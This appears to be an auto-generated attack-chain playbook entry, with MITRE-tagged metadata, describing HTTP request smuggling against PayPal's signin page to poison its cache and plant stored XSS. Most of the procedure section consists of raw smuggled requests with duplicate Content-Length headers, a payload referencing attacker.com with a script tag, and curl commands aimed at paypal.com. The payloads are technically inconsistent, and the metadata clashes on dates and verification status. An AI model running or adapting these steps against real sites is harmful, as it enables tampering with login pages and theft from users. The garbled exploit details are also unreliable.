

---
tags:
  - http-request-smuggling
  - stored-xss
  - caching-misconfiguration
  - web-exploit
  - paypal
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
  - '[[tools/cURL]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
commands:
  - '[[commands/curl-http-smuggling-test]]'
  - '[[commands/burp-request-manipulation]]'
platforms:
  - Web
complexity: high
procedures:
  - '[[procedures/Exploit-HTTP-Request-Smuggling-for-Cached-Redirect]]'
  - '[[procedures/Inject-Malicious-Content-via-Smuggled-Request]]'
  - '[[procedures/Verify-Stored-XSS-Impact-on-Signin-Page]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
description: >-
  Exploitation of HTTP Request Smuggling in frontend caching servers to bypass
  previous fixes and enable stored XSS on critical authentication pages
skill_level: advanced
impact_level: high
id: 5be5bc3d-58a3-4114-9ace-7bc1d761f199
created_at: '2025-12-11T06:10:40.625Z'
updated_at: '2025-12-11T06:10:40.625Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[TA0001]]'
  - '[[TA0002]]'
mitre_techniques:
  - '[[T1190]]'
  - '[[T1059.007]]'
---
# HTTP Request Smuggling to Create Cached Redirect and Stored XSS on PayPal Signin

Multi-stage attack chain demonstrating exploitation of a misconfiguration in frontend caching servers via HTTP Request Smuggling, leading to cached redirects that inject malicious content and enable stored XSS on pages like https://paypal.com/signin.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~15 minutes |
| Skill Level | Advanced |
| Complexity | High |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- [[tools/cURL]]

### Target Environment

- Web platform with frontend caching servers
- Services: Frontend caching servers
- Network access requirements: Public access to target URL (e.g., https://paypal.com/signin)

### Initial Access Requirements

- No credentials required
- Network position: External attacker
- Prior access needed: None, public-facing vulnerability

## Detailed Attack Procedures

### Step 1: Identify and Test for HTTP Request Smuggling - [[procedures/Exploit-HTTP-Request-Smuggling-for-Cached-Redirect]]

**Procedure**: [[procedures/Exploit-HTTP-Request-Smuggling-for-Cached-Redirect]]

**Objective**: Detect misconfiguration in frontend caching servers that allows HTTP Request Smuggling to manipulate cached responses.

**Expected Output**: Confirmation of smuggling vulnerability through discrepant request handling between frontend and backend.

**Success Indicators**:
- Differential response lengths or headers indicating smuggling success
- Ability to poison cache with a redirect

First, use [[commands/burp-request-manipulation]] to craft and send smuggled requests:

```bash
# Example in Burp Repeater: Send dual Content-Length headers to desync
POST /signin HTTP/1.1
Host: paypal.com
Content-Length: 0
Content-Length: 5

GPOST / HTTP/1.1
```

Then, verify with [[commands/curl-http-smuggling-test]] to check for cache poisoning:

```bash
curl -H "Host: paypal.com" -d "smuggled data" https://paypal.com/signin --http1.1
```

Look for responses that indicate a cached redirect has been created.

### Step 2: Inject Malicious Content via Smuggled Request - [[procedures/Inject-Malicious-Content-via-Smuggled-Request]]

**Procedure**: [[procedures/Inject-Malicious-Content-via-Smuggled-Request]]

**Objective**: Use the smuggled request to inject attacker's content into the cache, bypassing previous security fixes.

**Expected Output**: Cached page now redirects to or renders malicious content.

**Success Indicators**:
- Cache hit with injected XSS payload
- Malicious content loads on legitimate page

Craft the injection using [[commands/burp-request-manipulation]]:

```bash
# In Burp: Manipulate request to smuggle XSS payload
POST /signin HTTP/1.1
Host: paypal.com
Content-Length: 0
Content-Length: 50

GET /malicious HTTP/1.1
Host: attacker.com
Content-Type: text/html

<script>alert('XSS')</script>
```

Follow up with [[commands/curl-http-smuggling-test]] to trigger the cache:

```bash
curl https://paypal.com/signin
```

### Step 3: Verify Stored XSS and Impact - [[procedures/Verify-Stored-XSS-Impact-on-Signin-Page]]

**Procedure**: [[procedures/Verify-Stored-XSS-Impact-on-Signin-Page]]

**Objective**: Confirm that users accessing the page encounter the stored XSS, interfering with authentication.

**Expected Output**: Malicious content renders, potentially disrupting sign-in without backend impact.

**Success Indicators**:
- XSS payload executes in browser
- Page integrity compromised

Access the page using a browser or [[commands/curl-http-smuggling-test]]:

```bash
curl https://paypal.com/signin
```

Inspect the response for injected content, and test in a browser to see XSS execution.

## Attack Chain Summary

### Key Achievements

1. Bypassed previous fix (#488147) via request smuggling
2. Created cached redirect injecting malicious content
3. Enabled stored XSS on critical signin page, impacting user authentication

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

*Last updated: 2023-10-01*
